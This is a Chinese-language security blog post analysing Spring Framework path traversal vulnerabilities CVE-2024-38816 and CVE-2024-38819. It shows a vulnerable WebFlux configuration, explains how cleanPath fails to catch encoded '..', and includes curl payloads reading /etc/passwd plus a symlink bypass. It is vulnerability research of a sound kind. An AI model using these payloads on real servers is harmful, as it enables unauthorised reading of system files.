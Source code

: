 # CVE-2024-38816&amp;CVE-2024-38819

  
  
&lt;!--more--&gt;  
## 0x00 前言  
`Spring`通告  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191925620.png)
根据描述，搭建环境  
`WebConfig`  
```java  
package org.example.demo;    
    
    
import org.springframework.context.annotation.Bean;    
import org.springframework.context.annotation.Configuration;    
import org.springframework.core.io.FileSystemResource;    
    
import org.springframework.web.reactive.function.server.RouterFunction;    
import org.springframework.web.reactive.function.server.RouterFunctions;    
import org.springframework.web.reactive.function.server.ServerResponse;    
    
    
    
@Configuration    
public class WebConfig {    
    
    @Bean    
    public RouterFunction&lt;ServerResponse&gt; route() {    
        return RouterFunctions    
                    .resources(&#34;/static/**&#34;, new FileSystemResource(&#34;/Users/f10wers13eicheng/&#34;));    
    
    }    
}  
```  
## 0x01 漏洞分析  
### CVE-2024-38816  
查阅网上的文章分析  
https://zhuanlan.zhihu.com/p/5483655619  
造成漏洞的根本原因是`org.springframework.web.reactive.function.server.PathResourceLookupFunction#apply`函数  
其中`processPath`函数会处理多余的`/`，但是我们这里进行了`URL`编码所以并没有去除，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191929551.png)
在下面进行URL解码之后，进入到`isInvalidPath`函数进行检查  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191931224.png)
其中进入到`StringUtils.cleanPath`函数，`delimitedListToStringArray`函数会把我们传入的`//`也会解析成空  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191933303.png)
在下面添加元素时，同样也会解析当前目录和上一级目录，同时因为我们的空元素会  
进行`top--`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191949521.png)
在`for`循环处无法添加到`..`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191950105.png)
导致无法检查到`..`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191937490.png)
进行读取文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191938255.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502191951906.png)
### CVE-2024-38819 &amp;&amp; CVE-2024-38819 Bypass  
`6.1.14`在`6.1.13`的基础上在`processPath`函数处，新加了一个`normailizePath`函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502192020959.png)
```java  
private static String normalizePath(String path) {    
    String result = path;    
    if (result.contains(&#34;%&#34;)) {    
       result = decode(result);    
       if (result.contains(&#34;%&#34;)) {    
          result = decode(result);    
       }    
       if (result.contains(&#34;../&#34;)) {    
          return StringUtils.cleanPath(result);    
       }    
    }    
    return path;    
}  
```  
这个漏洞没有什么好说的，  
POC  
https://github.com/masa42/CVE-2024-38819-POC  
利用了软链接进行绕过，但是在下一个版本修复中仅仅修复了`../`  
所以我们还是可以进行绕过的，  
`payload`  
```bash  
ln -s /static /app/static/link  
curl http://localhost:8889/static/link/%2e%2e/etc/passwd  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201052439.png)
绕过`payload`  
```bash  
ln -s / /app/static/link  
curl http://localhost:8889/static/link/etc/passwd  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201054067.png)
`Orz`但是我将绕过后的`payload`提交了`issue`，开发者告诉我这并不属于漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201055289.png)
不知道`CVE-2024-38819`究竟是怎么提交成功的，可能是他们只认为payload中存在`../`才属于漏洞  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/cve-2024-38816cve-2024-38819/  

